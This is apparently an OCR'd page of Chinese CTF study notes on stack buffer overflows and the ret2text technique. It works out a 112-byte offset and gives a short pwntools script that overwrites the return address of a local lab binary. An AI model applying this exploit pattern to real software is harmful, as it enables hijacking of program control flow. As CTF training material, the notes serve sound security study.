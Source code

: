 # pwn



# 栈溢出原理





# ret2text



综上 100字节数组 + 浪费8字节 + 4字节存储寄存器 = 112字节，从s数组距离函数返回地址距离112字节，首先gets输入时，首先填充112字节，在填充4字节返回地址到需要运行的函数 



payload

```python
target = 0x0804863A #我们需要操控函数的目标地址
payload = b'A' * 100 + b'B' * 8 + b'C' * 4  + p32(target)  #构造payload攻击载荷
```



完整代码

```python
from pwn import *

sh = process('./ret2text')
target = 0x0804863A
payload = b'A' * 100 + b'B' * 8 + b'C' * 4  + p32(target)
sh.sendline(payload)
sh.interactive()
```

